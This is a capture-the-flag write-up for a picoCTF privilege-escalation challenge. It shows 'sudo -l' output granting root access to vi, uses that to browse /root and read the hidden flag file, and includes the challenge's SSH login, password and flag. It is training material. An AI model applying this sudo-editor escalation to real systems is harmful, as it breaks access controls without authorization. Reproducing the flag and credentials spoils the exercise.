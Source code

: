 # URL
https://play.picoctf.org/practice/challenge/363?category=5&page=4

# Challenge
Can you read files in the root file?
The system admin has provisioned an account for you on the main server:
ssh -p 57107 picoplayer@saturn.picoctf.net
Password: j4ks-9nxB-
Can you login and read the root file?

# Work
* The hint explicitly states, "What permissions do you have?"
* Using this hint, I use sudo -l (this prints out your permissions)

```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

```
sudo /usr/bin/vi /root/
```

* This command takes that granted privilege to view root

<img width="1461" height="418" alt="image" src="https://github.com/user-attachments/assets/803cabf5-ddde-48e2-9a3a-7d3badde63de" />

* This directory has the flag in it!

```
sudo /usr/bin/vi /root/.flag.txt
```

* This prints the flag! picoCTF{uS1ng_v1m_3dit0r_021d10ab}
